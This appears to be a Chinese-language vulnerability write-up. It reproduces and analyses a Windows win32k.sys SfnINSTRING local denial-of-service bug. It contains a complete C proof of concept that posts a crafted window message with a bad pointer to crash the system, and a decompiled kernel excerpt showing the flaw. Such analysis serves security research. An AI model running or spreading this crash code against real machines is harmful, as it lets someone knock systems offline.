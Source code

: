 ### 漏洞复现

环境：

![Screen Shot 2018-11-12 at 7.20.29 AM.png]({{ site.url }}/images/0day/D89D39206770BDE3DF3D348CBEF4FEE2.png)

PoC：

```c
#include "stdio.h"
#include "windows.h"

int main(int argc, char* argv[])
{
	wchar_t title[MAX_PATH]={0};

	printf("Microsoft Windows Win32k.sys SfnINSTRING Local D.O.S Vuln\nBy MJ0011\nth_decoder@126.com\nPressEnter");
	 
	HWND hwnd = FindWindow(L"DDEMLEvent" , NULL); 
	if (hwnd == 0){
		printf("cannot find DDEMLEvent Window!\n");
		return 0 ; 
	}

	GetWindowText(hwnd,title,MAX_PATH);
	printf("hwnd=%08X title=%s\n", hwnd, title);
	getchar();
	
	PostMessage(hwnd , 0x18d , 0x0 , 0x80000000);
	return 0;
}
```

用VS 2008编译运行：

![Screen Shot 2018-11-11 at 6.17.55 PM.png]({{ site.url }}/images/0day/5D53726274F5C53102044ED5689656BA.png)

### 漏洞分析

先去下载win32k.pdb，然后载入IDA。

漏洞点如下：

```c
int __stdcall xxxDefWindowProc(int a1, int MbString, ULONG AllocationSize, PVOID Address)
{
  // ...
  else
  {
    v4 = MbString & 0x1FFFF;
    if ( *(_BYTE *)(a1 + 22) & 8 )
    {
      if ( v4 < 0x400 )
        result = gapfnScSendMessage[MessageTable[(unsigned __int16)MbString] & 0x3F](
                   a1,
                   MbString,
                   AllocationSize,
                   Address,
                   0,
                   *(_DWORD *)(gpsi + 308),
                   1,
                   0);
      else
        result = SfnDWORD(a1, MbString, AllocationSize, Address, 0, *(_DWORD *)(gpsi + 308), 1, 0);
    }
```